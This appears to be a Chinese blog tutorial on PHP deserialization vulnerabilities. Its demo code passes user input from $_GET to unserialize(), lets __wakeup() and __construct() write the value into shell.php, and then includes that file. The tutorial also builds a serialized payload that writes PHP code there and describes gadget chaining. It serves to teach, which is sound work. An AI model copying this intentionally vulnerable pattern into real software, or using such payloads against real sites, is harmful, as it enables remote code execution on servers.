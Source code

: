 ```php
$class3_unser = unserialize($class3);

require "shell.php";
// 为显示效果，把这个shell.php包含进来
?>
```

同目录下有个空的shell.php文件。一开始访问index.php。

![](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170617/3.jpg?raw=true)

基本的思路是，本地搭建好环境，通过 serialize\(\) 得到我们要的序列化字符串，之后再传进去。通过源代码知，把对象中的test值赋为 "&lt;?php phpinfo\(\); ?&gt;",再调用unserialize\(\)时会通过\_\_wakeup\(\)把test的写入到shell.php中。为此我们写个php脚本：

```php
<?php
class chybeta{
    var $test = '123';
    function __wakeup(){
        $fp = fopen("shell.php","w") ;
        fwrite($fp,$this->test);
        fclose($fp);
    }
}
$class4 = new chybeta();
$class4->test = "<?php phpinfo(); ?>";    $class4_ser = serialize($class4);    print_r($class4_ser);
?>
```

由此得到序列化结果：

```
O:7:"chybeta":1:{s:4:"test";s:19:"<?php phpinfo(); ?>";}
```

![](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170617/4.jpg?raw=true)

#### 其他Magic function的利用

但如果一次unserialize\(\)中并不会直接调用的魔术函数，比如前面提到的\_\_construct\(\)，是不是就没有利用价值呢？非也。类似于PWN中的ROP，有时候反序列化一个对象时，由它调用的\_\_wakeup\(\)中又去调用了其他的对象，由此可以溯源而上，利用一次次的“gadget”找到漏洞点。

```php
<?php

class ph0en1x{
    function __construct($test){
        $fp = fopen("shell.php","w") ;
        fwrite($fp,$test);
        fclose($fp);
    }
}
class chybeta{
    var $test = '123';
    function __wakeup(){
        $obj = new ph0en1x($this->test);
    }

}

$class5 = $_GET['test'];
print_r($class5);
echo "</br>";
$class5_unser = unserialize($class5);

require "shell.php";
```
